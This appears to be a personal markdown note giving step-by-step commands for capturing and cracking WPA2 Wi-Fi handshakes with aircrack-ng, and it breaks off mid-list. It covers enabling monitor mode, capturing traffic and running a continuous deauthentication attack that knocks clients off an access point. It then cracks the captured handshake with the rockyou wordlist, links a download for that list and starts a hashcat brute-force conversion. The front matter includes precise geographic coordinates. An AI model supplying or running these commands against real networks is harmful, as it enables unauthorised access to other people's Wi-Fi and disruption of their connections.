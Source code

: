 ```yaml
---
title: Commands WPA2 handshake
updated: 2023-03-06 03:41:21Z
created: 2023-03-02 12:48:33Z
latitude: 50.81947760
longitude: 3.25772630
altitude: 0.0000
completed?: no
---
```


**Kills processes:**
`sudo airmon-ng check kill`

> If you want to restart the processes run the following command:
> `sudo service NetworkManager restart`

**Starts monitor mode**
`sudo airmon-ng start wlan0`

**Verify that monitor mode is used**
`sudo airmon-ng`

**Get the AP's MAC address and channel**
`sudo airodump-ng wlan0`

1.  **window 1**
    
    1.  *Fill in the channel(after -c) and bssid(after --bssid)*
    2.  `sudo airodump-ng -w hack1 -c --bssid wlan0`
    
    > Note: "hack1 is the filename where we are going to store the captures in, you can choose the name of this file as it doesn't matter, you need to make sure that you remember it tho"
    
2.  **window 2**
    
    1.  *Fill in the bssid after '-a'*
    2.  `sudo aireplay-ng --deauth 0 -a wlan0`

**Use Wireshark to open hack file**
`wireshark hack1-01.cap`

> Note: This is the filename which we've chosen in 'window 1', as there are many captures going on (unless you live under a rock or something ;P), you will get multiple files and that's why there is a '-01' added. You could even have to look in 'hack1-03.cap' to be able to find the 4-way handshake.

**Filter Wireshark messages for EAPOL**

**Stop monitor mode**
`airmon-ng stop wlan0`

**Crack file with Rock you or another wordlist**
**Make sure you have rockyou in text format (unzip file on Kali)**
`aircrack-ng hack1-01.cap -w /usr/share/wordlists/rockyou.txt`

> Note: You can find it on any Kali distribution included at the location above, mine didn't have it tho, so I had to download it :'(
> If your were out of luck like me and don't have the wordlist, [you could download it over here](https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt).
> **I had to use the followinf command as it was not included in my Kali distro (I downloaded my wordlist)**
> `aircrack-ng hack1-01.cap -w /root/Downloads/rockyou.txt`

**We can also try this without a wordlist, you can also use a brute force attack**

1.  Navigate to the folder where the .cap file is stored
2.  Convert the cap file to a file that is readable for 'hashcat'
3.  `/usr/share/hashcat-utils/cap2hccapx.bin hack1-01.cap wpa2.hccapx`
    ![89fee1ff703243b54724a52e1e91350c.png](../_resources/89fee1ff703243b54724a52e1e91350c.png)
4.  Next I'll move my file to my Windows machine, so that I'll be able to use my GPU to brute force faster
5.  Then using cmd I'll navigate to my hashcat folder where i copied the file to

![2c584a63276cd5269a185704c3c26f99.png](../_resources/2c584a63276cd5269a185704c3c26f99.png)

6\. Next I want to check wether or not my GPU is available

![6c4bd1871bea053c4919b9e8f1bfe9a6.png](../_resources/6c4bd1871bea053c4919b9e8f1bfe9a6.png)

7.